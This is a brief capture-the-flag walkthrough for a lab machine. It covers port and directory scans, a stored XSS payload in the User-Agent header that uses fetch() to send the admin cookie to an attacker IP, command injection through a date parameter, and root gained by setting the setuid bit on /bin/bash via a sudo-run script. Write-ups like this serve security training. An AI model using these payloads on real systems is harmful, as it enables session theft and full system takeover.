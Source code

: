 Started a nmap scan did  a 91 % scan box got restarted
```
22 OpenSSH 9.2p1 Debian
5000 Werkzeug 2.2.2 python 3.11.2
```

Starting a gobuster with `2-3.medium` 
```
/support  200 ok
/dashboard  500

```
Doing a nikto scan did not find anything

So there is a xss in the user agent using this payload and for the body of the message put `<>`
	`<img src=x onerror=fetch('http://10.10.14.47:8000/'+document.cookie);>`
and now we have the admin cookie using this cookie now we can access the dashboard we can see we can select the date we want to see a health report and there is a command injection in the date using this `;id` to do longer commands need to url encode and now we are the `dvir` user 
To get root make this script `initdb.sh`
```
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck
/bin/bash -p
``` 
and now we have root